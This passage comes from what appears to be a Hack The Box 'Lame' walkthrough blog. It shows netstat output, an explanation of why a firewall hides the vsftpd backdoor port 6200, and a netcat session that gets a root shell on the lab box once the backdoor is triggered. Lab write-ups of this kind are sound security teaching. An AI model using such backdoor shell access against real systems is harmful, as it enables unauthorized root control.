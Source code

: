 ```
tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN      5003/master     
tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN      4612/named      
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      5013/smbd       
tcp6       0      0 :::2121                 :::*                    LISTEN      5082/proftpd: (acce
tcp6       0      0 :::3632                 :::*                    LISTEN      4867/distccd    
tcp6       0      0 :::53                   :::*                    LISTEN      4612/named      
tcp6       0      0 :::22                   :::*                    LISTEN      4636/sshd       
tcp6       0      0 :::5432                 :::*                    LISTEN      4840/postgres   
tcp6       0      0 ::1:953                 :::*                    LISTEN      4612/named       

```

The firewall must be blocking a lot.

That means that if the backdoor is triggered, and starts listening on 6200, it’s likely not reachable from my host. I’ll test. For demonstration purposes, I’ll switch to the user on the box, makis:

```

root@lame:/etc# su - makis -c bash
makis@lame:~$ nc 127.0.0.1 6200
(UNKNOWN) [127.0.0.1] 6200 (?) : Connection refused

```

I’m unable to connect to the backdoor. When I trigger the backdoor again, now I can connect and get a shell as root:

```

makis@lame:~$ nc 127.0.0.1 6200
‍id
uid=0(root) gid=0(root)

```

I can see the port is now listening:

```

root@lame:/etc# netstat -tnlp | grep 6200
tcp        0      0 0.0.0.0:6200            0.0.0.0:*               LISTEN      5580/vsftpd  

```

[Lame distcc + Privesc »](/2020/04/08/htb-lame-more.html)